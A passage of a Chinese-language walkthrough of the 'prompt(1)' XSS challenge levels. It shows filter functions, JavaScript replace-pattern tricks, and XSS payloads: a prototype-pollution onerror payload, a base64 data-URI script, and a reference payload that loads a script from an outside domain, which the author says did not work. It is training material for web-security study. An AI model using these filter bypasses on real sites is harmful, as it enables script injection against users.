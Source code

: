 '1234567890'.replace('3',"$&han")
"123han4567890"

'1234567890'.replace('3',"$`han")
"1212han4567890"

'1234567890'.replace('3',"$'han")
"124567890han4567890"

'1234567890'.replace('3',"$$han")
"12$han4567890"</code></pre>

最后构造payload``{"source":"'"," proto": {"source":"$`onerror=prompt(1)>"}}``

## 0x0E

<pre class="wp-block-code"><code>function escape(input) {
    // I expect this one will have other solutions, so be creative :)
    // mspaint makes all file names in all-caps :(
    // too lazy to convert them back in lower case
    // sample input: prompt.jpg => PROMPT.JPG
    input = input.toUpperCase();
    // only allows images loaded from own host or data URI scheme
    input = input.replace(/\/\/|\w+:/g, 'data:');
    // miscellaneous filtering
    input = input.replace(/&#91;\\&+%\s]|vbs/gi, '_');

    return '&lt;img src="' + input + '">';
}  </code></pre>

函数先把输入转换为大写，第二层将//和字母换为data:，第三层将\、&、+、%和空白字符，vbs替换为_，所以不能内嵌编码后的字符，由于js大小写敏感，所以只能引用外部脚本。

Data URI是由RFC 2397定义的一种把小文件直接嵌入文档的方案。格式如下：

<pre class="wp-block-code"><code>data:&#91;&lt;MIME type>]&#91;;charset=&lt;charset>]&#91;;base64],&lt;encoded data></code></pre>

其实整体可以视为三部分，即声明：参数+数据，逗号左边的是各种参数，右边的是数据。

MIME type，表示数据呈现的格式，即指定嵌入数据的MIME。

  * 1、对于PNG的图片，其格式是image/png，如果没有指定，默认是text/plain。
  * 2、character set(字符集）大多数被忽略，默认是charset=US-ASCII。如果指定是的数据格式是图片时，字符集将不再使用。
  * 3、base64，这一部分将表明其数据的编码方式，此处为声明后面的数据的编码是base64，我们可以不必使用base64编码格式，如果那样，我们将使用标准的URL编码方式,形如%XX%XX%XX的格式。

一个data URI范例：

<pre class="wp-block-code"><code>&lt;a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik8L3NjcmlwdD4="&gt;test&lt;a&gt;</code></pre>

这道题目有问题，并不能复现成功，参考payload：`"><IFRAME/SRC="x:text/html;base64,ICA8U0NSSVBUIC8KU1JDCSA9SFRUUFM6UE1UMS5NTD4JPC9TQ1JJUFQJPD4=`

## 0x0F

```
function escape(input) {
    // sort of spoiler of level 7
    input = input.replace(/\*/g, '');
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');

    return segments.map(function(title, index) {
        // title can only contain 15 characters
        return '<p class="comment" title="' + title.slice(0, 15) + '" data-comment=\'{"id":'
        + index + '}\'></p>';
    }).join('\n');
}  
```